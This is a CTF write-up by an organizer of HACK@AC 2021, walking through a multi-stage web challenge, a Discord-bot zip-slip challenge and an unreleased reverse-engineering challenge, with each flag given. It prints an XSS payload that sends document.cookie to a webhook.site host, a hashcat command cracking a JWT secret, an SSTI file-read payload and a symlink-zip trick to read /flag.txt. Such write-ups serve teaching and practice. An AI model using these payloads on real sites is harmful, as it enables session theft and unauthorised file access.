 #HACK@AC 2021 Writeups by samuzora

HACK@AC is a CTF organized by the Anglo-Chinese School (Independent) Robotics Technology Society, held on 16 Oct 2021. I was part of the organizing team and made a grand total of 4 challenges (one got removed later on). It was generally quite a fun experience for all (excluding !help) and I learnt quite a bit from organizing this CTF, from dockerizing applications to debugging trivial typos. Below are writeups for some of the challenges, both made by me and by others.

[Web](##Web)

[Misc](##Misc)

[Unreleased](##Special---Unreleased)




## Web

### FatherBoat

Difficulty: Hard

Solves: 0 :<

Link: http://139.59.124.129:51000/

Description: You've heard of Mothership but have you heard of FatherBoat? Due to Mothership stealing all their visitors, the company couldn't make enough revenue to hire a good web dev. Before he left, he might have screwed over some stuff... Don't be too harsh on them please.

Author: Lucas

Intended Solution:
1. XSS
  Payload: `<script>fetch("https://webhook.site/unique-id/?c="+document.cookie)</script>`
  Explanation: The website tells us that one requires approval from the admin to post a story. Instead of getting approval from the admin, one can instead be the admin and thus bypass the approval process, especially since the admin seems to be sleeping/braindead. XSS is possible here as the story of the user is injected directly into the HTML DOM. The cookie is `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhZG1pbiI6ImZhbHNlIn0.OqbksdUdBezk8bCqbh7wJOBuHFIKGoKGkdbAiu9SiJk`
2. Hashcat
  Payload: `./hashcat.exe -a 3 -m 16500 ./.hash --increment ?l?l?l?l?l?l`
  Explanation: After obtaining the token from the admin and checking it out with jwt.io, it seems like even the admin isn't an admin, which sucks tbh. (blame it on the dev) So we have to crack the JWT secret. Luckily for us, the secret isn't very long, so it can be cracked easily using Hashcat (6 lowercase chars). The key is "father".
3. SSTI
  Payload: `{{get_file('flag.txt')}}`
  Explanation: After verifying ourselves as the admin, we can successfully submit stories. However, upon submitting a story, the website prompts us that "Server-side story sharing" has yet to be implemented. This is a direct hint towards Server Side Template Injection (SSTI), so one can test for possible SSTI with ``{{7*7}} or {{7*'7'}}``. Then at a loss of what exactly to do, one might attempt `{{config.items()}}` and stumble upon 2 important key-value pairs: `('BUILT_IN', 'get_file()'), ('FLAG', 'flag.txt')`. Afterwards it's easy, just `{{get_file('flag.txt')}}` to get the flag, `ACSI{gr4ndf4th3r_v3ssel}`.

Comments:

This challenge was made quite last minute, as we were kinda short of hard web challenges. The puppeteer was especially hard to set up. Originally I tried using the Python import of puppeteer, pyppeteer, but it turned out to be a nightmare. Afterwards I just set up an API for the JS puppeteer and the Python flask app to interact. According to inside info, HCI had already solved the XSS part, but they realized it was a multi-part challenge and just gave up :(. Hence 0 solves

## Misc

### !help

Difficulty: ~~Medium~~ **HARD**

Solves: 3 (all HCI btw)

Description: There's a bot in the CTF discord that seems unusually quiet. Maybe try DMing it? I hear he gives flags...

Author: Lucas

Intended Solution:

**Zip Slip**

The intended (obvious) solution was to exploit the fact that the bot only accepted .zip files in the !upload command. Admittedly, without sufficient experience this might have been hard to spot, but granted that the participants were allowed to google I thought that this wouldn't be too difficult. Anyway, the 2-liner command to generate the symlink and zip it is as follows: `ln -s /flag.txt link; zip -y payload.zip link`. Then !upload `payload.zip` and the bot will return the flag, `ACSI{symb0l1c_link5}`. For more info, click [here](https://snyk.io/research/zip-slip-vulnerability).

Comments:

I really underestimated the difficulty of this challenge. Originally, it was a much simpler and much easier directory traversal via the !image command which allows one to view any image/file in the bot's machine. However, *a certain person* said it was too easy and suggested a zip slip vulnerability instead. Sorry to all who attempted this challenge, I've heard your cries for *!help*, and will tone down the difficulty of similar challenges in the future. For the record, a total of 3 hints were given for this challenge, and a 4th would have been given had a certain flag hoarder from HCI not submitted his flag.

## Special - Unreleased

### revnew (RE)

Difficulty: HARD

Solves: NA

Description: NA

Author: Elijah

Solution:

(According to Elijah, I can just ignore all the mallocs so here goes nothing.) Decompile the provided binary in IDA64. First important line is `scanf("%s", s);`, this just takes in the user input into `s`. Also we have `srand(0x10F2Cu);`, which sets the seed to 69420 in decimal. Next is `v67 = 8 * ((unsigned __int64)&v9[7] >> 3);`, which apparently makes `v67` a pointer to `s` (idk how). Afterwards we have a for loop, which loops through `s` and calls `(rand() % 21 + 69) * s[i]` into v25. Note that the output of rand() can be replicated as the seed is known. Then `s[i] = v25`. Then `  strcpy(v23, "01011100011001010111010001111001010110010010011101110100000100110100000111011001011110101000001001010110010011110010101011101101010000000010000101000011100000100111010001000011010110100011101000101000");` just means that v23 is set to `01011100011001010111010001111001010110010010011101110100000100110100000111011001011110101000001001010110010011110010101011101101010000000010000101000011100000100111010001000011010110100011101000101000` (important btw). Now we have another loop, which just loops through `s` and `dest += hex(s[i])`. Skipping through 25+ lines of arbitrary mallocs wait nvm we can't skim through cos the important statements are here and there... Brief summary: ```v24 = unhex(dest)
v18 = binary(v24)
v6 = len(v18)

v6 = len(v24)
v12 = str(v18+2)[:(v6-7)]
v15 += v12``` Lastly, we come to a very primitive XOR gate, where v23 is xored with v15 to get our output. Pseudocode (python-like) of what just happened: ```s = input()
random.seed(69420)
v28 = 0
v69 = len(s)
v68 = v69 -1
v67 = 8 * (0 right shift 3)

for i in range(v69):
    v4 = rand()
    v25 = v4 % 21 + 69
    v25 = s[i] * v25
    v5 = v25
	s[i] = v5

v23 = "01011100011001010111010001111001010110010010011101110100000100110100000111011001011110101000001001010110010011110010101011101101010000000010000101000011100000100111010001000011010110100011101000101000"

dest = ''

for i in range(v69):
	src = hex(s[i])
    dest += src

v24 = unhex(dest)
v18 = binary(v24)
v6 = len(v18)

v6 = len(v24)
v12 = str(v18+2)[:(v6-7)]
v15 += v12

if v36 >= v35:
    v33 = v36
else:
    v33 = v35

for i in range(v33):
    if v23[i] == v15[i]:
		v9[i] = '0'
    else:
		v9[i] = '1'

print(v9)```

The way to approach this problem is to work backwards with what we have. So assuming the start of the output we want is ACSI{, we can work backwards to find out that `dest = 1d26 2730 22...` in hex. Afterwards, an RNG script was written in C to replicate `v4 = rand()`. Then converting each byte in `dest` to decimal and dividing it by the respective `v4`s, we obtain `[r` in binary converted to ASCII. Wait did I mention that `strcpy(s, "[redacted]");` was important? `strcpy(s, "[redacted]");` is important. Now, realize that Elijah is a sadist who likes to watch people suffer with the key right under their nose and decompile horrendous C code with mallocs littered everywhere and the correct input is actually `[redacted]`, so go ahead and input that to obtain the flag, `ACSI{th3_he4p_1s_a_1ie}`. Overall this challenge was ~~A NIGHTMARE THAT I SPENT 2 WEEKS ON~~ pretty easy. I hope you understand why this challenge was unreleased.
